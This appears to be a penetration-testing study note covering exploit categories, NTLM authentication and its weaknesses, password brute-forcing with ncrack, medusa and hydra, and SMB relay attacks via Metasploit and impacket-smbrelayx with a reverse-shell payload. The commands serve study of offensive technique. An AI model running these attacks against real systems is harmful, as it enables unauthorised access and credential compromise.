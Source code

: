 > Vulnerabilities on the target system and how to exploit them

This is usually achieved through vulnerability assessment (which can be done through scanners like: `nessus`, `nexpose` etc.)

Exploits can usually be devides into 3 categories
- client-side exploit (usually requires interaction from the user)
- remote exploits, attack services listening on the network (no interaction required)
- local privilege escalation

## Basic information

### NTLM

NT Lan Manager, authentication system used by windows in the past and still today (newer versions  or Kerberos). It uses 3 message types in order to establish authentication:

- 1: negotiation --> client2server contains username
- 2: challenge --> server2client contains challenge
- 3: response --> client2server encrypt challenge with hash of user pw

Crypto schemes used with NTLM
- LM: `ASCII` capital chars and `DES` (known ciphertext: `KGS!@#$%`)
- NTLM: `UNICODE` chars and `MD4`
- NTLMv2: including timestamps, making every request unique - also per resource specific information is included (username, servername of the requested service). Cracking infeasible IF password is strong enough

Windows Vista and above use at least `NTLMv2`

## Low hanging fruits

> Usually default or weak passwords, accessible config files, misconfigured servers or software, bad permissions, null sessions, unpatched systems and so on

### Cracking weak passwords

- using `ncrack`

```bash
ncrack <servicename>://<target>:<optionalPort> <servicename>://<target>:<optionalPort> # multiple also possible

ncrack ssh://10.10.10.66
# OR
ncrack 10.10.10.10,15 -p ssh:50,telnet # global definiton of services to scan with 2 ips to check
```

- using `medusa`

```bash
medusa -h 192.168.102.149 -M telnet -U username.lst -P password.lst
```

- using `hydra`

```bash
hydra -l <loginName> -P <pathToWordlist> ssh://10.10.10.66
```

### Screening websites

> Making screenshots of urls

```bash
eyewitness --prepend-https -f <path2FileWithURLs>  # optional --active-scan but its loud
```

Creates a screenshot of the website and also provides other information (IP, hostname etc.)

## SMB relay attack

> Intercepting an SMB connection via MITM and relaying the request while sitting on the connection (should work with v1/v2)

![[smb_relay_ntlm1.png]]

### 0. Prerequisites

- victim must have admin privileges on the target
- MITM position of the attacker
- `ntlm` must be in use

### 1. exploit using metasploit 

```bash
msfconsole
> use exploit/windows/smb/smb_relay
> show options  # and set them accordingly
```

MITM must be established beforehand!

### 0. Prerequisites (impacket)

- meterpreter payload with reverse shell (`msfvenom`)
- running handler in metasploit

### 1. Start smbrelayx

```bash
impacket-smbrelayx -h <targetHost> -e <pathToPayload>
```

OR for an interactive session run:

```bash
impacket-smbrelayx -h <targetHost> -socks

proxychains -q impacket-smbexec <domain>/<user>@<targetHost>  # domain and user is display in smbrelayx
```

the interactive session doesn't require meterpreter handler.